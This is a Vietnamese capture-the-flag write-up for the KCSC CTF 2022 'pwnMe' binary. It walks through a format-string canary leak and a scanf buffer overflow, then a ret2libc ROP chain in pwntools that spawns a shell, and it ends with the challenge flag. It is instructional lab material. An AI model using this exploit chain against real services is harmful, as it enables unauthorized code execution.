





# KCSC CTF 2022 - pwnMe

Các bạn có thể tải chall ở repo của mình: [pwnMe.zip](pwnMe.zip)

# 1. Tìm lỗi

Đầu tiên ta decompile file với ghidra, nhận thấy chỉ có một hàm main: 

```c
undefined8 main(EVP_PKEY_CTX *param_1)
{
    long in_FS_OFFSET;
    char local_60 [8];
    undefined local_58 [72];
    long local_10;
    
    local_10 = *(long *)(in_FS_OFFSET + 0x28);
    init(param_1);
    puts("Hello there, what\'s your name?");

    /* -------- Vulnerability 1 --------*/
    gets(local_60);
    printf("Hello, ");
    __printf_chk(1,local_60);
    /* -------- Vulnerability 1 --------*/

    puts("What you think about this event: ");
    
    /* -------- Vulnerability 2 --------*/
    // DAT_00402052 = "%s"
    __isoc99_scanf(&DAT_00402052,local_58);
    /* -------- Vulnerability 2 --------*/
    
    puts("bye!");
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                      /* WARNING: Subroutine does not return */
      __stack_chk_fail();
    }
    return 0;
}
```

Ta có thể thấy ở lỗi 1 là **Format String** vì ta có thể chọn các loại format string ta muốn để hàm `__printf_chk` thực thi ngoại trừ `%n` vì flag của `__printf_chk` là 1 ([Source](https://code.woboq.org/userspace/glibc/debug/printf_chk.c.html)). Đồng thời `__printf_chk` cũng không cho ta xài dạng rút gọn của format string như là `%<k>$p`, `%<k>$x`...

Lỗi thứ 2 là `scanf()` với format string là `%s` --> **Buffer Overflow**

# 2. Ý tưởng

Với custom format string, ta sẽ dùng `%p` để leak canary ra. Sau đó lợi dụng `scanf("%s",local_58)` để overwrite saved rip và leak địa chỉ libc ra, sau đó cho chương trình chạy lại từ đầu và tạo shell.

Tổng kết:
- Stage 1: Leak canary
- Stage 2.1: Ret2libc - Leak address
- Stage 2.2: Ret2libc - Get shell

# 3. Khai thác

Đây là kỹ thuật cơ bản nên mình sẽ lướt nhanh, các bạn ai không hiểu có thể tạo issue, mình sẽ giải đáp cho nhé :3

### Stage 1: Leak canary

Đầu tiên, ta nhập thử 17 cái `%p` vào để xem liệu ta có leak được canary hay không:



Vậy với 16 cái `%p`, ta có thể lấy được canary. Code snippet:

```python
p.sendlineafter(b'name?', b'%p'*16)
p.recvline()
canary = int(p.recvuntil(b"What", drop=True).split(b'0x')[-1], 16)
log.info("Canary: " + hex(canary))
```

### Stage 2.1: Ret2libc - Leak address

Ta đã lấy được canary, việc còn lại chỉ là tìm offset từ chuỗi được nhập ở `scanf()` cho tới canary, và offset từ canary tới saved rip. Debug với gdb, nhập chuỗi `AAAAAAAA` tại lệnh `scanf()` và kiểm tra stack:



Bằng cách đếm, ta biết được offset từ chuỗi được nhập tới canary là `0x48` byte và từ canary tới saved rip là `0x8`. Bây giờ ta sẽ leak địa chỉ puts ra với đoạn code tiếp theo:

```python
pop_rdi = 0x00000000004013a3
pop_rsi_r15 = 0x00000000004013a1

payload = b'A'*0x48 + p64(canary) + b'B'*8
payload += flat(
    pop_rdi,
    exe.got['puts'],
    exe.plt['puts'],
    exe.sym['main'])
p.sendlineafter(b'event:', payload)
p.recvline()
p.recvline()
puts_addr = u64(p.recvline()[:-1] + b'\x00\x00')
log.info("Puts address: " + hex(puts_addr))
```

Với địa chỉ leak được, ta vào [đây](https://libc.blukat.me/) để tại libc về:





Có 4 libc, trong đó 2 cái đầu là 32 bit và 2 cái sau là 64 bit. File chall của chúng ta là 64 bit nên ta sẽ thử hết với 2 libc sau. 

Ta thử bằng cách tải libc về và chạy `pwninit` để patch libc và binary. Nếu lỡ chọn sai libc (phải làm hết tới bước lấy shell nhưng không thành công thì mới biết được), ta chỉ việc chạy lại pwntool với libc còn lại.

Tiếp tục, ta thêm đoạn code sau để tìm địa chỉ base của libc:

```python
libc.address = puts_addr - libc.sym['puts']
log.info("Libc base: " + hex(libc.address))
```

### Stage 2.2: Ret2libc - Get shell

Có địa chỉ của libc, ta sẽ tạo shell với cách thức như trên:

```python
p.sendlineafter(b'name?', b'AAAA')
payload = b'A'*0x48 + p64(canary) + b'B'*8
payload += flat(
    pop_rsi_r15,
    0,
    0,
    pop_rdi,
    next(libc.search(b'/bin/sh')),
    libc.sym['system'])
p.sendlineafter(b'event:', payload)
p.interactive()
```

Nếu chạy script với libc này mà không tạo được shell, ta dùng libc còn lại để tạo shell.

> Tips: Nhớ set rsi thành null để tránh gặp lỗi khi thực thi `system("/bin/sh")`

Full code: [solve.py](solve.py)

# 4. Lấy cờ



Flag là `KCSC{abcca9dc165c259d21469e60dc087244}`